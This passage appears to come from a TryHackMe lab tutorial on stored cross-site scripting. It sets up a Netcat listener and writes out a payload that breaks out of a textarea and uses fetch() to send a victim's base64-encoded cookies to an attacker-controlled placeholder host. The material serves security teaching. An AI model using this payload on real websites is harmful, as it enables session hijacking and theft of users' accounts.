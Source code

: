 Using the AttackBox, let’s set up a listening server using Netcat. If we want to listen on port 9001, we issue the command `nc -l -p 9001`. The `-l` option indicates that we want to use Netcat in listen mode, while the `-p` option is used to specify the port number. To avoid the resolution of hostnames via DNS, we can add `-n`; moreover, to discover any errors, running Netcat in verbose mode by adding the `-v` option is recommended. The final command becomes `nc -n -l -v -p 9001`, equivalent to `nc -nlvp 9001`.


```shell-session
user@machine$ nc -nlvp 9001
Listening on [0.0.0.0] (family 0, port 9001)
```

Now that we’ve set up the method of receiving the exfiltrated information, let’s build the payload.

`</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.